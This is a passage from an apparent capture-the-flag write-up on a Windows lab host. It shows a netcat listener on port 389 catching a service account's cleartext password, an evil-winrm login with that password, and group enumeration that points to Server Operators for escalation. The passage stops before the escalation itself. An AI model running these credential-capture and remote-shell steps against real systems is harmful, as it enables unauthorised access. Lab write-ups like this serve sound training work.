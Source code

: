we receive a password `1edFg43012!!`

```bash
$sudo nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 60888
0*`%return\svc-printer▒
1edFg43012!!
```

Using `evil-winrm` to establish a remote connection.
```bash
$evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```


## SHELL AS ADMINISTRATOR

### ENUMERATION
```
*Evil-WinRM* PS C:\Users\svc-printer> net user svc-printer
User name                    svc-printer
Full Name                    SVCPrinter
Comment                      Service Account for Printer
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            5/26/2021 12:15:13 AM
Password expires             Never
Password changeable          5/27/2021 12:15:13 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   1/28/2023 4:56:36 AM

Logon hours allowed          All

Local Group Memberships      *Print Operators      *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.

```
Here, we can see that `svc-printer` is a member of `Server Operators` group which seems interesting.
